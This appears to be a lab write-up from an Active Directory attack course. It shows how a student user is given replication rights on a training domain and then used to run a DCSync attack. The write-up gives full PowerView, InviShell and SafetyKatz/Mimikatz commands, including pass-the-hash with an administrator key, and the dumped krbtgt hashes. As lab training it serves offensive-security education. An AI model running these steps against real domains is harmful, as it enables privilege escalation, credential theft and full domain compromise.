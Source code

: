 # Hands-on 16: DC Sync with additional rights

- [Hands-on 16: DC Sync with additional rights](#hands-on-16-dc-sync-with-additional-rights)
  - [Tasks](#tasks)
  - [Check if studentuserx has Replication (DCSync) rights](#check-if-studentuserx-has-replication-dcsync-rights)
  - [Add the replication rights for the studentuserx and execute the DCSync attack to pull hashes of the krbtgt user](#add-the-replication-rights-for-the-studentuserx-and-execute-the-dcsync-attack-to-pull-hashes-of-the-krbtgt-user)

---

## Tasks

- Check if studentuserx has Replication (DCSync) rights. 
- If yes, execute the DCSync attack to pull hashes of the krbtgt user. - If no, add the replication rights for the studentuserx and execute the DCSync attack to pull hashes of the krbtgt user.

<br/>

---

## Check if studentuserx has Replication (DCSync) rights

First run a InviShell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.dat
```

<br/>

Import `PowerView.ps1`:

```
. C:\AD\Tools\PowerView.ps1
```

<br/>

Check if the current user has any replicating right on the Domain Object:

```
Get-DomainObjectACL -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{ ($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | %{$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser64"}
```

![picture 56](images/70a86c3cfbe72aff720e06e3fb849c990235dcc36eae7f0ffa5e12f99e933e44.png)  

- It returns nothing: we have no DCSync right

<br/>

---

## Add the replication rights for the studentuserx and execute the DCSync attack to pull hashes of the krbtgt user

To add replication rights for `studentuser64`, if we need to become Domain Admins:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /run:powershell.exe" "exit"
```

![picture 58](images/4daa22fac81367fe8ca92035086c8f392195527ba2ded9c3742f9a4526d08d19.png)  


<br/>

Use PowerView to add the required permissions:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat 
```

- FullControl Rights

```
. C:\AD\Tools\PowerView.ps1; Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser64 -Rights All -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

![picture 59](images/5cb672d62ffb4018f324e88803aecdc22536a60001f6e55654cf6d5fb94c3088.png)  

<br/>

- DCSync rights

```
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser64 -Rights DCSync -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

![picture 60](images/e2600e4e6d4992f2a44da056d9d73f8c2d021042378b1733bad8eafb70c9ff0d.png)  

<br/>

Now check the permission of the DC object again:

![picture 61](images/1004b74d4478b58c58cc72003e67c7f96bd28ee0b08dac564d46660636914bef.png)  

![picture 62](images/dc8cafdbc3dcdfacb5edf34cfaac8057c3aa60ee5f7451799abdae38825ec471.png)  



<br/>

With DCSync right, get the `krbtgt` hashes:


```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

![picture 63](images/67aebea3d3d4fe14cbfb5ca74e23533babb48ab4b4d60264cc16479bd63e9266.png)  

Result:

```
[*] Dumping lsass (720) to C:\Windows\Temp\test.txt
[+] Dump successful!

[*] Executing loaded Mimikatz PE

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 18 2020 22:37:12
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /user:us\krbtgt
[DC] 'us.techcorp.local' will be the domain
[DC] 'US-DC.us.techcorp.local' will be the DC server
[DC] 'us\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/4/2019 11:49:17 PM
Object Security ID   : S-1-5-21-210670787-2521448726-163245708-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: b0975ae49f441adc6b024ad238935af5
    ntlm- 0: b0975ae49f441adc6b024ad238935af5
    lm  - 0: d765cfb668ed3b1f510b8c3861447173

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 819a7c8674e0302cbeec32f3f7b226c9

* Primary:Kerberos-Newer-Keys *
    Default Salt : US.TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
      aes128_hmac       (4096) : 1bae2a6639bb33bf720e2d50807bf2c1
      des_cbc_md5       (4096) : 923158b519f7a454

* Primary:Kerberos *
    Default Salt : US.TECHCORP.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 923158b519f7a454

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  a1bdf6146e4b13c939093eb2d72416c9
    02  cd864c0d5369adad4fc59a469a2d4d17
    03  2123179b0ab5c0e37943e346ef1f9d9a
    04  a1bdf6146e4b13c939093eb2d72416c9
    05  cd864c0d5369adad4fc59a469a2d4d17
    06  3449e5615d5a09bbc2802cefa8e4f9d4
    07  a1bdf6146e4b13c939093eb2d72416c9
    08  296114c8d353f7435b5c3ac112523ba4
    09  296114c8d353f7435b5c3ac112523ba4
    10  5d504fb94f1bcca78bd048de9dad69e4
    11  142c7fde1e3cb590f54e12bbfdecfbe4
    12  296114c8d353f7435b5c3ac112523ba4
    13  13db8df6b262a6013f78b082a72add2c
    14  142c7fde1e3cb590f54e12bbfdecfbe4
    15  b024bdda9bdb86af00c3b2503c3bf620
    16  b024bdda9bdb86af00c3b2503c3bf620
    17  91600843c8dadc79e72a753649a05d75
    18  423730024cfbbc450961f67008a128a5
    19  d71f700d63fa4510477342b9dc3f3cc7
    20  bad6b9122f71f8cfd7ea556374d381d9
    21  52c6560f77613d0dcf460476da445d93
    22  52c6560f77613d0dcf460476da445d93
    23  23504d9f1325c5cf68892348f26e77d7
    24  8228bd623c788b638fce1368c6b3ef44
    25  8228bd623c788b638fce1368c6b3ef44
    26  a2659c1d9fa797075b1fabdee926569b
    27  784f5fbc5276dcc8f88bbcdfa27b65d8
    28  2ac6c7c1c24262b424f85e1ab762f1d3
    29  4bef285b22fd87f4868be352958dcb9e


mimikatz(commandline) # exit
Bye!
```